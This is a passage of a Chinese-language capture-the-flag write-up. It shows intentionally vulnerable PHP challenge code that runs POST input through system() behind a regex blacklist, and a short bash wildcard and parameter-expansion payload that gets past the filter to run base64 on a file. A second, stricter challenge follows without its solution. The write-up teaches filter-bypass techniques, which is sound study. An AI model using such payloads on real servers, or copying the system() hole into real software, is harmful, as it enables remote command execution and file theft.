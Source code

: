 ```

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|PATH|BASH|HOME|\/|\(|\)|\[|\]|\\\\|\+|\-|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){   //  限制长度
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>
```

测试发现过滤了PATH,采用shell的base64加密

> base64路径在/bin/base64,用?匹配的时候需要匹配全路径,不能只匹配base64

payload(由于用了随机函数，可能要多试几次)

```
code=${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???
```

![image-20220713123133000](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207131231077.png?x-oss-process=hzy)

# web121

题目如下

```

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|HOME|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>
```
